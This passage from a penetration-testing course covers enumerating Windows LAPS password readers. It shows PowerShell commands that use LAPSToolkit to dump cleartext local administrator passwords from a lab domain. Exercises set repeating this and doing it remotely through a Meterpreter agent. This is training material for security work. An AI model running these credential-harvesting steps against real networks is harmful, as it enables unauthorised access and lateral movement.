 ```
```

> Listing 14 - Enumerating members of LAPS Password Readers

The output reveals that the _jeff_ and _admin_ users can read the LAPS passwords. These permissions are often given to both help desk employees and system administrators.

Users with these permissions are prime targets during a penetration test since they have access to clear text passwords on a potentially large number of workstations or servers.

For example, we can log in to the Windows 10 victim machine as the _admin_ user and view the LAPS passwords with Get-LAPSComputers:

```
PS C:\Tools> Import-Module .\LAPSToolkit.ps1

PS C:\Tools> Get-LAPSComputers

ComputerName       Password       Expiration
------------       --------       ----------
appsrv01.corp1.com gF3]5n{KsnyMwI 12/14/2019 04:18:03
```

> Listing 15 - Finding the clear text local administrator password

We can use the local administrator password for appsrv01 (highlighted in Listing 15) to remotely log in to this machine and others with matching credentials.

Now that we have an understanding of the local administrator account and potential attack vectors against it, let's investigate how access rights and permissions work after a user has authenticated on Windows.

#### Exercises

1. Repeat the LAPS enumeration and obtain the clear text password using LAPSToolKit from the Windows 10 victim machine.
2. Create a Meterpreter agent on the Windows 10 victim machine and perform the same actions remotely from your Kali Linux machine.

1

(Microsoft, 2016), [https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922(v%3Dws.11)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922\(v%3Dws.11\)) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5350-1)

2

(Microsoft, 2019), [https://social.technet.microsoft.com/wiki/contents/articles/8548.active-directory-sysvol-and-netlogon.aspx](https://social.technet.microsoft.com/wiki/contents/articles/8548.active-directory-sysvol-and-netlogon.aspx) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5350-2)

3

(Microsoft, 2019), [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5350-3)
